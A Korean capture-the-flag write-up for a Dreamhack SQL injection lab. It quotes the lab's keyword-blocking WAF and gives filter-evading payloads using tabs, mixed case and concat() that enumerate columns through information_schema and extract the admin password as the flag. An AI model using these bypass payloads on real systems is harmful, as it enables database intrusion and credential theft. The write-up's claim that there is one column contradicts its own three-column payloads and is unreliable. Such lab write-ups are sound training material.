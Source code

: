 ## Dreamhack_by_pass_sqli
Dreamhack 해커들의 놀이터 SQL Injection bypass WAF 풀기

## Black Box 방식으로 공격해보기
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/a19047d6-ca96-4e23-b911-396ea5c9dca9)

> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/a9db8751-a5ce-47e8-8a17-a7e4846b26d1)

- sql 문법이 막히는 것을 보아 필터링이 되는 것 같다

## 코드 분석하기.

```
keywords = ['union', 'select', 'from', 'and', 'or', 'admin', ' ', '*', '/']
def check_WAF(data):
    for keyword in keywords:
        if keyword in data:
            return True

    return False

@app.route('/', methods=['POST', 'GET'])
def index():
    uid = request.args.get('uid')
    if uid:
        if check_WAF(uid):
            return 'your request has been blocked by WAF.'
```
위 코드를 보면 sql 특적 키워드들이 값으로 들어오면 필터링 돼서 WAF로 인해 막힌다는 메시지가 출력된다.
그렇다면 소문자를 대문자로 바꿔 컬럼 갯수를 알아내는 공격을 해보자.

- 컬럼 수 확인하기.
```
'	oRder	by	1#
'	oRder	by	2#
'	oRder	by	3#
'	oRder	by	4#
```
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/cc963842-806d-4f2f-b366-b01a3cb4df73)

> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/148149c7-dd6b-4643-aa78-4152a8b4c720)

> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/9a198866-a0f5-4892-af3f-c4caf7078997)
 
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/24837302-278d-4e81-b9c6-c0e31cdbfc7f) ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/3ad6428f-4124-4a14-a4bc-2cfe66958196)

'	oRder	by	4# 에서 에러가 발생하는것으로 보아 컬럼의 갯수는 1개이다.

## 컬럼특성 및 DB version 확인하기.
```
'	Union	Select	@@version,null,null#
'	Union	Select	null,@@version,null#
```
위 구문으로 2번째 컬럼이 문자열이라는 것을 알아 냈다. 또한 DB 버전도 알아냈다.
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/62084023-65c8-4edd-8eff-d695daeeef5b)
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/5a292eba-c7ad-41fb-949f-ce037602a4bd)

## 컬럼명 확인하기
- 테이블 명이 user라고 나와 있으므로 그걸 이용해 데이터베이스 information_schema.columns 테이블에 있는 값으로 user테이블의 컬럼명을 알아보자.
```
'	Union	Select	null,column_name,null	From	infOrmation_schema.columns	Where	table_name='user'#
'	Union	Select	null,column_name,null	From	infOrmation_schema.columns	Where	table_name='user'	LIMIT	1	OFFSET	1#
'	Union	Select	null,column_name,null	From	infOrmation_schema.columns	Where	table_name='user'	LIMIT	1	OFFSET	2#
```
- 위 sqli 공격으로 3개의 컬럼명을 알아냈다.
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/0fc9cc40-d60c-4c2d-80c5-1185d978a839)
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/b55d4c81-6948-478a-8c2d-830ca2b503fc)
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/c6a24639-6871-44a6-86c9-98f0b2065d2a)

## flag 값 확인하기.
- 우리는 컬럼명, 컬럼 갯수를 알아냈으므로 그 정보를 이용해 flag 값을 알아낼것이다. flag는 uid가 admin인 행의 upw값이다.
```
'	Union	Select	null,upw,null	From	user	Where	uid=concat('ad','min')#
```
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/285d849b-11e1-46b6-af6c-83abea29c17b)



